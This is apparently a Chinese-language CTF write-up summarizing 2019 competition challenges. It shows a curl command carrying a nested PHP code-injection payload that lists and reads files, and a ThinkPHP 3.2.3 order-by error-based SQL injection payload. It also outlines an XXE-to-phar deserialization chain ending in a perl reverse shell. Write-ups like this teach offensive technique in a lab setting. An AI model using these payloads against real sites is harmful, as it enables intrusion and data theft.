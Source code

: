 ```yaml
---
title: 2019WriteUp 汇总 VOL 3
summary: 2019上海大学生网络安全邀请赛 && 2019红帽杯
featured-img: 2019-wp-vol3
layout: post
---
```


+ [2019上海大学生网络安全邀请赛](#2019上海大学生网络安全邀请赛)
+ [2019红帽杯](2019红帽杯)

## 2019上海大学生网络安全邀请赛

### PHP

byteCTF boring_code++

```
curl "http://9f541345e3134764922236b093730b44cf8166f9f5cf4994.changame.ichunqiu.com/code/?code=echo(serialize(file(end(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion()))))))))))))))));"
```

***

## 2019红帽杯

### ticker_system

上传xml文件 + XXE

构造tp5.2的反序列化pop链，xxe `SYSTEM "phar://"`触发

服务器perl反弹shell后执行`/flag` ，trap bypass交互式验证码即可

***

### easyweb

tp3.2.3 order by报错注入

无报错回显，但可列目录

```
orderby[updatexml(1,concat(0x25,(select/**/flaag/**/from/**/fl4g)),1)%23]=1
```

`/App/Runtime/Logs/Api/19_11_11.log`看回显
